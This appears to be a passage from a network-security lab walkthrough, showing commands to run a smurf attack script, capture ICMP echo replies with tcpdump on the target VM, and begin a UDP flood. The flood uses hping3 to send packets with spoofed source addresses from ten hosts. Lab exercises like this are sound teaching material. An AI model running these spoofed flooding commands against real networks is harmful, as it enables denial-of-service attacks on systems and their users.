 => 
    
    ls -all smurfattack.sh

* ls -all shows all the access permissions of the file

=> 
    
    sudo chmod +x smurfattack.sh

* chmod +x makes the file executable

=> 

    sudo chmod +s smurfattack.sh

* Allows to run all the commands in shell script with sudo privileges.

=> 

    ./smurfattack.sh

* Runs the executable file.


Target VM:

=> 
    
    sudo tcpdump -n -i ens192 -s0 -w icmpsmurf.pcap src net 133.228.64.0/18 and icmp

* rc net tells to look for packets coming from network mentioned. 
* icmp looks for icmp packets.

=> 
    
    sudo tcpdump -r icmpsmurf.pcap| grep "echo reply" | wc -l

* Counts the number of echo reply packets in the captured packets.

### C. UDP Flooding attack:

Attacker Vm:

=> 
    
    cp smurfattack.sh udpflood.sh

* Copies the content of smurfattack.sh to udpflood.sh

=> 

    nano udpflood.sh

* sudo hping3 -a 133.228.72.1 -c 10 -2 -p 1234 -q 133.228.86.3 (10 times with different machines)

* Make the changes as required for sending udp packets.  
* -2 stands for udp protocol. 
* -p stands for port number. 
* The above command sends the packets from the 10 hosts as spoofed source to 133.228.86.3 (target machine).

=> 
